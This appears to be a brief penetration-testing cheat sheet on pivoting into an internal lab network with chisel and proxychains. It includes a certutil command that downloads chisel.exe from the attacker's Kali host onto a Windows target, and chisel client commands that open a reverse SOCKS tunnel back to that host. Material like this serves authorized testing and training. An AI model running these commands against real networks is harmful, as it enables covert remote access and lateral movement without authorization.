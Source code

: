 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

Kali => Punisher => Spiderman

| Kali | Punisher | Spiderman | 
| --- | --- | --- |
| 192.168.111.133 | 192.168.111.138 / 10.10.10.129 | 10.10.10.128

https://github.com/jpillora/chisel/releases

```bash - kali
sudo mousepad /etc/proxychains4.conf
```

```bash - kali
socks5 127.0.0.1 1080
```

```bash - kali
chmod +x chisel
```

Kali:
```bash - kali
sudo ./chisel server -p 8000 --reverse 
```

Windows target:
```command prompt - windows
certutil -urlcache -split -f http://$KALI/chisel.exe
```

```command prompt - windows
chisel.exe client $KALI:8000 R:socks
```  

Linux target:
```bash - kali
chmod +x chisel
```

```bash - target
./chisel client $KALI:8000 R:socks
```

If http is available on the target, set up foxyproxy and visit:
[[1._Proxychains and FoxyProxy]]
